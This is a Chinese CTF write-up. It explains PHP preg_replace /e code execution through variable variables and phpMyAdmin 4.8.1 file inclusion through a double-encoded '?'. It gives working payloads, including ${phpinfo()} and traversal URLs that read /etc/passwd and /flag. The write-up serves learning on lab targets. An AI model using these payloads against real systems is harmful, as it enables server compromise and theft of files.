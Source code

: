 下面再说说我们为什么要匹配到 {${phpinfo()}} 或者 ${phpinfo()} ，才能执行 phpinfo 函数，这是一个小坑。这实际上是 PHP可变变量 的原因。在PHP中双引号包裹的字符串中可以解析变量，而单引号则不行。 ${phpinfo()} 中的 phpinfo() 会被当做变量先执行，执行后，即变成 ${1} (phpinfo()成功执行返回true)。如果这个理解了，你就能明白下面这个问题：

1. var_dump(phpinfo()); // 结果：布尔 true
2. var_dump(strtolower(phpinfo()));// 结果：字符串 '1'
3. var_dump(preg_replace('/(.*)/ie','1','{${phpinfo()}}'));// 结果：字符串'11'
4. var_dump(preg_replace('/(.*)/ie','strtolower("\\1")','{${phpinfo()}}'));// 结果：空字符串''
5. var_dump(preg_replace('/(.*)/ie','strtolower("{${phpinfo()}}")','{${phpinfo()}}'));// 结果：空字符串''
6. 这里的'strtolower("{${phpinfo()}}")'执行后相当于 strtolower("{${1}}") 又相当于 strtolower("{null}") 又相当于 '' 空字符串

真不懂，大佬给了个payload

\S*=${phpinfo()} 

问了问chatgpt

![image-20230517091828560](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230517091828560.png)

[参考文章](https://www.cesafe.com/html/6999.html)

这里还有个大佬进行了本地测试：

[点这里](https://blog.51cto.com/u_15127511/4382395)

使用了/e执行漏洞触发getflag函数后再向cmd中传入所需的命令即可

## 4.我有一个数据库

只有一段话，抓包后无结果，用dirsearch扫试试

![image-20230517101614753](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230517101614753.png)

![image-20230517101637109](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230517101637109.png)访问/phpadmin试试

![image-20230517094757185](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230517094757185.png)

访问后得知该版本为4.8.1，相关版本有个漏洞

其index.php中存在一处文件包含逻辑

[参考文章](https://www.jianshu.com/p/0d75017c154f)

这篇文章讲述的很清楚

简单来说，就是这个漏洞的源文件（index.php）存在解码漏洞，源码内对url进行了？的分割，在分割前，又对参数进行了urldecode,且如果?号前面的文件就是taget在白名单里，就可以绕过，这样我们一是令target=db_sql.php，而是在传参使对?进行二次url编码，即?变为%253f

访问

/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd

有结果，说明存在文件包含漏洞

![image-20230517102010792](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230517102010792.png)

构造payload:  url/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../flag
